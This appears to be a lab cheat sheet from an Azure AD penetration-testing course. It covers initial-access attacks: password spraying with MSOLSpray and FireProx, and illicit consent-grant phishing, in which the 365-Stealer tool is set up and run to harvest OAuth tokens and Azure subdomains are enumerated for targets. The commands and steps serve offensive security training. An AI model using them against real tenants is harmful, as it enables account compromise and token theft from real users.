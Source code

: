 # Initial access attacks
## Password spray
- https://github.com/dafthack/MSOLSpray
- https://github.com/ustayready/fireprox
```
Import-Module .\MSOLSpray.ps1
```

## Illicit Consent Grant phishing
#### Create a application
- Login to the Azure portal and in the left menu go to 'Azure Active Directory' --> 'App registrations' and click 'new registration'
- Set a application name and choose 'Accounts in any organizational directory (Any Azure AD Directory - Multitenant'
- Use the URL of the student VM in the URI (https://172.16.151.x/login/authorized)
- In the left menu go to 'Certificates & Secrets' and create a new client secret and copy it.
- In the left menu go to 'API permissions' and add the 'user.read' and 'User.ReadBasic.All' for the Microsoft Graph.

#### Check if users are allowed to consent to apps
```
Import-Module AzureADPreview.psd1

#Use another tenant account
$passwd = ConvertTo-SecureString "SuperVeryEasytoGuessPassword@1234" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@defcorphq.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole

#output should be
ManagePermissionGrantsForSelf.microsoft-user-default-legacy
```

#### Setup the 365-stealer
- Copy the 365-stealer directory to the xampp directory
- Edit the 365-stealer.py and edit the CLIENTID (client application id), REDIRECTEDURL and CLIENTSECRET (From the certificate)

#### Start the 365-stealer
```
&"C:\Program Files\Python38\python.exe" C:\xampp\htdocs\365-Stealer\365-Stealer.py --run-app
```

#### Get the phishinglink
- Browse to https://localhost and click on readmore. Copy the link!

#### Enumerating applications to send the phishing link
- Edit the permutations.txt to add permutations such as career, hr, users, file and backup
```
. C:\AzAD\Tools\MicroBurst\Misc\Invoke-EnumerateAzureSubDomains.ps1
Invoke-EnumerateAzureSubDomains -Base defcorphq –Verbose
```
